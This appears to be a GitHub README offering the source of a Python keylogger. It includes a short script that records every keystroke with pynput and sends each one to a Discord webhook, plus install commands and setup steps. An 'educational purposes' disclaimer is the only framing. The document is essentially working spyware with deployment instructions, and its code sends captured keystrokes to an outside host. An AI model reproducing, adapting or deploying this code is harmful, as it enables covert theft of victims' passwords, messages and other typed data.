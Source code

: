 # Keylogger
**Simple keylogger who sends the information throught Discord webhooks. Only made for educational purposes!**
**I am not responsible for any damages caused by improper use of the code** 
## Code 

```python
from pynput.keyboard import Listener
from discord_webhook import DiscordWebhook, DiscordEmbed

hook = "" #In "" put ur discord webhook

def writefile(key): 
    try:
        letter = str(key)
        webhook = DiscordWebhook(url=hook, content=letter)
        response = webhook.execute()
    except KeyError:
        pass

with Listener(on_press=writefile) as lis:
    lis.join()
``` 
## How to use 
First download python to your PC 
Next use command download pynput and discord_webhook
Command:
```python
pip install discord_webhook
pip install pynput
```
Go to code and change "hook" to your discord bot webhook 

## Appearance
![](https://i.imgur.com/0kiEY8i.png)
